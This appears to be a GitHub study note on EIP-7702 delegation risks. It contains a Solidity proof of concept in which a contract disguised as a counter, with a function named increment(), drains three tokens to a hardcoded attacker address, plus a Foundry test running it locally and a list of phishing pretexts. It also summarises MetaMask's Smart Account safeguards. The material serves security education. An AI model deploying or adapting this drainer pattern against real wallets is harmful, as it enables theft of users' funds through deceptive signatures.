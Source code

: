 # EIP-7702 potential vulnerabilities POC

## 1. Dangers of EIP-7702
#### 1. Incorrect Delegation = Account Takeover
- If a user signs a **delegation tuple**, the EOA (Externally Owned Account) is **bound to execute logic from the delegated contract**.
- This means the attacker can **control how the EOA behaves**.

---

#### 2. Tokens Can Be Stolen Without `approve`
- Traditionally, attackers needed an `approve → transferFrom` sequence.
- With EIP-7702, **once the delegation is signed, the attacker can directly make your EOA transfer tokens**.
- No further approvals or confirmations are required.

---

#### 3. Attacker Can Trigger Arbitrary External Calls
- Beyond transferring tokens, the attacker can:
  - Interact with DeFi protocols (e.g., borrow, swap, liquidate).
  - Trigger NFT transactions or scam contracts.
  - Perform any on-chain operation using your EOA.

---

#### 4. Single Authorization = Persistent Risk
- The delegation remains **active until manually cleared** (set to zero address).
- This means the attacker can **repeatedly exploit the authorization** at any time.
- **It’s not a one-time effect—it persists.**

---

#### 5. Signing Delegation Costs No Gas
- Delegation is done via an **off-chain signature**, so there's **no gas fee**.
- This makes phishing extremely cheap:
  - Fake airdrop sites.
  - “Free NFT” or “connect wallet to verify” prompts.
  - Once signed, the trap is set.

## 2. Proof of Concept (POC)
This PoC demonstrates how an attacker can exploit the EIP-7702 delegation mechanism. By having the user sign a single authorization signature, the user's EOA is delegated to a malicious contract `EOABackdoor`, which can then drain all tokens in a single transaction.

**Attack Flow**

1. The user signs a `signAndAttachDelegation(...)` message, setting `EOABackdoor` as the execution target.
2. An attacker sends a type-4 transaction.
3. The transaction executes `EOABackdoor.increment()`, which transfers all tokens from the contract to the attacker.
4. The `increment()` function has no access control and simply uses `transfer(...)` to empty all token balances.

#### 1. `EOABackdoor.sol`
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract EOABackdoor {
    uint256 public myNumber;

    address public constant EEEVVVILLL = 0x; // anvil(1)

    IERC20 public immutable i_tokenA;
    IERC20 public immutable i_tokenB;
    IERC20 public immutable i_tokenC;

    constructor(IERC20 tokenA, IERC20 tokenB, IERC20 tokenC) {
        i_tokenA = tokenA;
        i_tokenB = tokenB;
        i_tokenC = tokenC;
    }

    function increment() public {
        i_tokenA.transfer(EEEVVVILLL, i_tokenA.balanceOf(address(this)));
        i_tokenB.transfer(EEEVVVILLL, i_tokenB.balanceOf(address(this)));
        i_tokenC.transfer(EEEVVVILLL, i_tokenC.balanceOf(address(this)));
    }
}
```

#### 2. `EOABackdoor.t.sol`
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {Test, console} from "forge-std/Test.sol";
import {EOABackdoor, IERC20} from "../src/EOABackdoor.sol";
import {Counter} from "../src/Counter.sol";
import {MockToken} from "../src/MockToken.sol";

contract EOABackdoorTest is Test {
    EOABackdoor public eoa;
    Counter public counter;
    MockToken public tokenA;
    MockToken public tokenB;
    MockToken public tokenC;

    uint256 public constant ANVIL_KEY = 0x;
    address public constant ANVIL_ADDRESS = 0x;

    function setUp() public {
        counter = new Counter();

        vm.startPrank(ANVIL_ADDRESS);
        tokenA = new MockToken();
        tokenB = new MockToken();
        tokenC = new MockToken();
        vm.stopPrank();

        vm.deal(ANVIL_ADDRESS, 1 ether);
        eoa = new EOABackdoor(tokenA, tokenB, tokenC);
    }

    function test_backdoor() public {
        assert(tokenA.balanceOf(ANVIL_ADDRESS) > 0);
        assert(tokenB.balanceOf(ANVIL_ADDRESS) > 0);
        assert(tokenC.balanceOf(ANVIL_ADDRESS) > 0);

        vm.signAndAttachDelegation(address(eoa), ANVIL_KEY);
        vm.startPrank(ANVIL_ADDRESS);
        EOABackdoor(eoa).increment();

        assert(tokenA.balanceOf(ANVIL_ADDRESS) == 0);
        assert(tokenB.balanceOf(ANVIL_ADDRESS) == 0);
        assert(tokenC.balanceOf(ANVIL_ADDRESS) == 0);
    }
}
```

## 3. Metamask Smart Account
#### 1. How MetaMask Supports EIP-7702?
Starting from **MetaMask version v12.17.0**, Smart Account support powered by EIP-7702 is available.

This feature allows users to temporarily attach smart contract logic to their existing EOA (Externally Owned Account) without changing their address or migrating assets. With this, users can perform advanced actions like batch transactions and sponsored (gasless) transactions.

MetaMask supports EIP-7702 in the following ways:

- Users can choose to "Upgrade to Smart Account" in the account settings interface.
- Upgrading does not change your address or require asset transfers. It involves signing a **delegation tuple** as defined by EIP-7702.
- All smart account behavior is routed through a MetaMask-deployed **official delegator contract**, which includes built-in logic for common actions and prevents dangerous external contract execution.
- The MetaMask UI clearly displays prompts like "Upgrade to Smart Account" before signing to ensure users are informed.
- Users may revert to a standard account at any time through the settings menu. Reverting requires a single on-chain transaction to clear the delegation.
- Currently, this feature is supported on Ethereum mainnet and testnets, and may expand to other EIP-7702-compatible networks.

![MetaMask Smart Account UI](./imgs/Day04/Metamask-7702.png)

![EIP-7702 in Etherscan](./imgs/Day04/Etherscan.png)

---

#### 2. Security Considerations

MetaMask has implemented multiple layers of protection to minimize risks introduced by EIP-7702.

First, users **retain full control of their private keys**. Even after upgrading to a Smart Account, your funds remain entirely under your signature authority.

MetaMask currently **restricts delegation to an official, hardcoded Delegator contract**, significantly reducing the chance of phishing websites tricking users into delegating to malicious contracts. This Delegator contract contains audited, safe logic only.

However, some security challenges remain:

- Delegation is an **off-chain signature** (zero gas), which makes it easy to trick users into signing without realizing its consequences.
- Once delegated to a malicious contract, the attacker may continue issuing transactions on your behalf until you manually revoke the delegation.
- If MetaMask eventually allows **user-defined Delegator contracts**, the phishing risk will increase. User education and clear UI design will become even more important.


## References:
1. [Pectra: The DANGERS of the Ethereum EIP-7702](https://www.youtube.com/watch?v=zIlDMeatZ94)
2. https://support.metamask.io/configure/accounts/what-is-a-smart-account/ 